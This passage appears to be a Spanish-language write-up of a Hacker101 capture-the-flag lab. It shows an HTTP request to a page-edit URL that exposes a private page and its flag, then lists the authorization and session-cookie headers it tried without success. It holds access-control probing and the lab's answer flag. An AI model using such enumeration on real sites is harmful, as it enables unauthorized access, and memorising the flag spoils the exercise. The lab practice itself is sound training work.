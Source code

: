 ```HTTP
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 18:26:48 GMT
Server: openresty/1.27.1.2
```

**Intendo de acceso a edición**
```HTTP
GET /page/edit/7 HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
User-Agent: HTTPie/3.2.4
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com



HTTP/1.1 200 OK
Date: Sun, 03 Aug 2025 16:08:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 682
Connection: keep-alive
Server: openresty/1.27.1.2


<!doctype html>
<html>
    <head>
        <title>Edit page</title>
    </head>
    <body>
        <a href="../../">&lt;-- Go Home</a>
        <h1>Edit Page</h1>
        <form method="POST">
            Title: <input type="text" name="title" value="Private Page"><br>
            <textarea name="body" rows="10" cols="80">My secret is ^FLAG^ef1e891cb8ed7596cdbefe17afc9a2e4ac865eb368c084e5887555caf11f9b1b$FLAG$</textarea><br>
            <input type="submit" value="Save">
            <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
        </form>
    </body>
</html>
```
**Flag encontrada**

`^FLAG^ef1e891cb8ed7596cdbefe17afc9a2e4ac865eb368c084e5887555caf11f9b1b$FLAG$`

**Intento de acceso a página protegida**

Se probaron los headers:
- `Authorization: Bearer <FLAG>`
- `Authorization: Basic <FLAG>`
- `Cookie: sessionid=<FLAG>`
- `Cookie: session=<FLAG>`
- `Cookie: connect.sid=<FLAG>`
- `Cookie: PHPSESSID=<FLAG>`
**Sin resultados**

